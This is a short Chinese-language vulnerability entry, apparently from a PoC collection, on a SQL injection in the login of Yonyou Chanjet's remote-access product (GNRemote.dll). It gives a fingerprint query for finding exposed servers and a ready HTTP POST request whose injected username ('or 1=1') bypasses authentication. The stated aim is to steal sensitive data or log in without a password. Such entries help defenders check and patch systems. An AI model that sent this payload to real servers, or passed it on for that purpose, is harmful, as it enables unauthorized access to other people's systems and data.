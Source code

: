 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

```
用友 畅捷通远程通
```

## 网络测绘

```
body="远程通CHANJET_Remote"
```

## 漏洞复现

登录页面

![image-20221017171544062](images/202210171715136.png)

验证POC

```
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![image-20221017171557552](images/202210171715601.png)

![image-20221017171609942](images/202210171716987.png)